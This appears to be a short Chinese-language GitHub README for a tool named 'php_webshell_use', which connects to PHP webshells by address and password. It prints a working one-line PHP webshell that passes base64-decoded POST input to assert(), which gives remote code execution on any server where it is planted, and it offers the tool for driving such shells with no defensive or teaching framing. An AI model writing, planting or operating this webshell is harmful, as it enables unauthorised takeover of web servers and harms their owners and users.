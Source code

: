 # php_webshell_use
只需要把webshell地址,密码输入进去就可以进行操作  
webshell内容必须要是base64加密的内容  
示例代码如下:  
"\<?php assert(base64_decode($_POST['z'])); ?>"  
只要你的密码接收值是base64编码后的结果可使用此脚本
![b02df61511329d0a65b6d8b067f7536](https://github.com/Canhokseng/php_webshell_use/assets/95032598/414d0f2d-66fb-44b9-ac6c-6b47934c00a3)





